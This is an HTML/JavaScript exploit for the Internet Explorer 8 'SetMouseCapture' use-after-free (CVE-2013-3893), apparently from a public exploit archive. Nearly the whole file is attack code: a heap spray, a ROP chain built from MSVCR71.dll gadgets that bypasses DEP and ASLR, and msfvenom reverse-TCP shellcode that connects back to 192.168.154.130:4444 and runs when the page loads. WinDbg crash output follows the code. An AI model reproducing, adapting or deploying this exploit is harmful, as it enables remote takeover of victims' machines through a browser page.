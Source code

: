 EXP
---

    # Exploit Title: Microsoft Internet Explorer 8 - 'SetMouseCapture ' Use After Free
    # Date: 15/05/2021
    # CVE : CVE-2013-3893
    # PoC: https://github.com/travelworld/cve_2013_3893_trigger.html/blob/gh-pages/params.json
    # Exploit Author: SlidingWindow
    # Vendor Advisory: https://docs.microsoft.com/en-us/security-updates/SecurityAdvisories/2013/2887505?redirectedfrom=MSDN
    # Tested on: Microsoft Internet Explorer 8 (version: 8.0.7601.17514) on Windows 7 SP1 (Version 6.1 Build 7601 SP1)
    # Bypasses: DEP, ASLR using MSVCR71.DLL
    # Thanks to @corelanc0d3r for awesome Heap Exploitation Training and @offsectraining for OSCP training

    <html>
    <script>
    var spraychunks = new Array();

      // Use BSTR spray since DEPS spray didn't work here
      function heapspray()
      {
        var ropchain = unescape("%u122c%u0c0c"); //EAX now points here. EDX = [EAX+0x70]. So call EDX will take a forward jump to stack-heap flip: 0x7c348b05 :  # XCHG EAX,ESP # RETN

        //ESP points here after stack-heap flip. jump over padding+stack-heap flip into ROP chain.
        ropchain += unescape("%u6bd5%u7c36");  //0x7c366bd5 :  # ADD ESP,100 # RETN    ** [MSVCR71.dll] **   |   {PAGE_EXECUTE_READ}

        //Some padding
        ropchain += unescape("%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565%u6262%u6262%u6363%u6363%u6464%u6464%u6565%u6565");

        //ESP will point to 0x0c0c122c after stack-heap flip.
        ropchain += unescape("%u8b05%u7c34"); //0x7c348b05 :  # XCHG EAX,ESP # RETN    ** [MSVCR71.dll] **   |   {PAGE_EXECUTE_READ}

        //More padding for ADD ESP, 100
        ropchain += unescape("%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565%u6565");

        //rop chain generated with mona.py - www.corelan.be
        //ropchain needed a little fix

        ropchain += unescape(
          "" + // #[---INFO:gadgets_to_set_ebp:---] :
          "%u1cab%u7c35" + // 0x7c351cab : ,# POP EBP # RETN [MSVCR71.dll]
          "%u1cab%u7c35" + // 0x7c351cab : ,# skip 4 bytes [MSVCR71.dll]
          "" + // #[---INFO:gadgets_to_set_ebx:---] :
          "%u728e%u7c34" + // 0x7c34728e : ,# POP EAX # RETN [MSVCR71.dll]
          "%ufdff%uffff" + // 0xfffffdff : ,# Value to negate, will become 0x00000201
          "%u684b%u7c36" + // 0x7c36684b : ,# NEG EAX # RETN [MSVCR71.dll]
          "%u1695%u7c37" + // 0x7c371695 : ,# POP EBX # RETN [MSVCR71.dll]
          "%uffff%uffff" + // 0xffffffff : ,#
          "%u5255%u7c34" + // 0x7c345255 : ,# INC EBX # FPATAN # RETN [MSVCR71.dll]
          "%u2174%u7c35" + // 0x7c352174 : ,# ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN [MSVCR71.dll]
          "" + // #[---INFO:gadgets_to_set_edx:---] :
          "%u5937%u7c34" + // 0x7c345937 : ,# POP EDX # RETN [MSVCR71.dll]
          "%uffc0%uffff" + // 0xffffffc0 : ,# Value to negate, will become 0x00000040
          "%u1eb1%u7c35" + // 0x7c351eb1 : ,# NEG EDX # RETN [MSVCR71.dll]
          "" + // #[---INFO:gadgets_to_set_ecx:---] :
          "%u0c81%u7c36" + // 0x7c360c81 : ,# POP ECX # RETN [MSVCR71.dll]
          "%ucd8c%u7c38" + // 0x7c38cd8c : ,# &Writable location [MSVCR71.dll]
          "" + // #[---INFO:gadgets_to_set_edi:---] :
          "%u4648%u7c35" + // 0x7c354648 : ,# POP EDI # RETN [MSVCR71.dll]
          "%ud202%u7c34" + // 0x7c34d202 : ,# RETN (ROP NOP) [MSVCR71.dll]
          "" + // #[---INFO:gadgets_to_set_esi:---] :
          "%u50dd%u7c36" + // 0x7c3650dd : ,# POP ESI # RETN [MSVCR71.dll]
          "%u15a2%u7c34" + // 0x7c3415a2 : ,# JMP [EAX] [MSVCR71.dll]
          "%u5194%u7c34" + // 0x7c345194 : ,# POP EAX # RETN [MSVCR71.dll]
          // "%ua140%u7c37" + // 0x7c37a140 : ,# ptr to &VirtualProtect() [IAT MSVCR71.dll]
          // "%ua051%u7c37" +  // 7c37a051 + 0xEF should become  0x7c37a140, which is a pointer to &VirtualProtect()
          // Because next instruction adds 0xEF into AL.
          "%ua151%u7c37"  + // 7c37a151 + + 0xEF should become  0x7c37a140, which is a pointer to &VirtualProtect()
          // Because next instruction adds 0xEF into AL.
          "" + // #[---INFO:pushad:---] :
          "%u8c81%u7c37" + // 0x7c378c81 : ,# PUSHAD # ADD AL,0EF # RETN [MSVCR71.dll]
          "" + // #[---INFO:extras:---] :
          "%u5c30%u7c34" + // 0x7c345c30 : ,# ptr to 'push esp # ret ' [MSVCR71.dll]
          ""); //  :


        // msfvenom -p windows/shell_reverse_tcp -a x86 lhost=192.168.154.130 lport=4444 -b '\x00' -f js_le
        // First few bytes, %uc481%ufa24%uffff (which is \x81\xc4\x24\xfa\xff\xff # add esp,-1500) move ESP away from EIP to avoid GetPC() routine from corrupting our shellcode

        var shellcode = unescape("%uc481%ufa24%uffff%uccd9%u74d9%uf424%ube5d%uba98%ue3da%uc931%u52b1%u7531%u8317%u04c5%ued03%u38a9%uf116%u3e26%u09d9%u5fb7%uec53%u5f86%u6507%u6fb8%u2b43%u1b35%udf01%u69ce%ud08e%uc767%udfe8%u7478%u7ec8%u87fb%ua01d%u47c2%ua150%ub503%uf399%ub1dc%ue30c%u8f69%u888c%u0122%u6d95%u20f2%u20b4%u7a88%uc316%uf75d%udb1f%u3282%u50e9%uc870%ub0e8%u3148%ufd46%uc064%u3a96%u3b42%u32ed%uc6b0%u81f6%u1cca%u1172%ud66c%ufd24%u3b8c%u76b2%uf082%ud0b0%u0787%u6b14%u8cb3%ubb9b%ud635%u1fbf%u8c1d%u06de%u63fb%u58de%udca4%u137a%u0849%u7ef7%ufd06%u803a%u69d6%uf34c%u36e4%u9be6%ube44%u5c20%u95aa%uf295%u1655%udbe6%u4291%u73b6%ueb33%u835d%u3ebc%ud3f1%u9112%u83b2%u41d2%uc95b%ubedc%uf27b%ud736%u0916%u18d1%u8b4e%uf1a3%uab8d%u5db2%u4d1b%u4dde%uc64d%uf777%u9cd4%uf8e6%ud9c2%u7229%u1ee1%u73e7%u0c8c%u7390%u6edb%u8b37%u06f1%u1edb%ud69e%u0292%u8109%uf5f3%u4740%uacee%u75fa%u29f3%u3dc4%u8a28%ubccb%ub6bd%uaeef%u367b%u9ab4%u61d3%u7462%udb92%u2ec4%ub74c%ua68e%ufb09%ub010%ud615%u5ce6%u8fa7%u63be%u5808%u1c37%uf874%uf7b8%u083c%u55f3%u8114%u0c5a%ucc24%ufb5c%ue96b%u09de%u0e14%u78fe%u4a11%u91b8%uc36b%u952d%ue4d8%u4167");

        var junk = unescape("%u2020%u2020");
        while (junk.length < 0x4000) junk += junk;
        offset = 0x204/2 ; //0c0c1228
        var junk_front = junk.substring(0,offset);
        var junk_end = junk.substring(0,0x800 - junk_front.length - ropchain.length - shellcode.length)
        var smallblock = junk_front + ropchain + shellcode + junk_end;


        var largeblock = "";
        while (largeblock.length < 0x80000) { largeblock = largeblock + smallblock; }

        // make allocations
        for (i = 0; i < 0x450; i++) { spraychunks[i] = largeblock.substring(0, (0x7fb00-6)/2);  }

      }

      function alloc(nr_alloc){
        for (var i=0; i < nr_alloc; i++){
          divobj = document.createElement('div');
          // Allocate 0x25 (37 decimal) bytes.  Vulnerable object size = 0x4c bytes
          divobj.className = "\u1228\u0c0c\u4141\u4141\u4242\u4242\u4343\u4343\u4444\u4444\u4545\u4545\u4646\u4646" +
                           "\u4747\u4747\u4848\u4949\u4949\u5050\u5050\u5151\u5151\u5252\u5252\u5353\u5353\u5454" +
                           "\u5454\u5555\u5555\u5656\u5656\u5757\u5757\u5858\u5858";
        }
      }

      heapspray();

      function trigger()
      {
        var id_0 = document.createElement("sup");
        var id_1 = document.createElement("audio");

        heapspray();
        document.body.appendChild(id_0);
        document.body.appendChild(id_1);
        id_1.applyElement(id_0);

        id_0.onlosecapture=function(e) {
        //Vulnerable Object is freed here
        document.write("");

        //Replace/Reclaim the freed object here.
        //Object size is 0x4c
        alloc(0x20);

        }

        id_0['outerText']="";
        id_0.setCapture();
        id_1.setCapture();
      }

      window.onload = function() {
        trigger();
      }

    </script>
    </html>

    <!-- Debug: Taking a different code path for this exploit

    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=00000003 ebx=00000100 ecx=40404040 edx=00000001 esi=0089c098 edi=00000000
    eip=7467b68d esp=0301c34c ebp=0301c360 iopl=0         nv up ei pl nz na po nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
    mshtml!CElement::Doc:
    7467b68d 8b01            mov     eax,dword ptr [ecx]  ds:002b:40404040=????????

    0:005> u eip
    mshtml!CElement::Doc:
    7467b68d 8b01            mov     eax,dword ptr [ecx]
    7467b68f 8b5070          mov     edx,dword ptr [eax+70h]
    7467b692 ffd2            call    edx
    7467b694 8b400c          mov     eax,dword ptr [eax+0Ch]
    7467b697 c3              ret
    7467b698 90              nop
    7467b699 90              nop
    7467b69a 90              nop

    0:005> ub eip
    mshtml!CElement::SecurityContext+0x22:
    7467b681 8b01            mov     eax,dword ptr [ecx]
    7467b683 8b5070          mov     edx,dword ptr [eax+70h]
    7467b686 ffe2            jmp     edx
    7467b688 90              nop
    7467b689 90              nop
    7467b68a 90              nop
    7467b68b 90              nop
    7467b68c 90              nop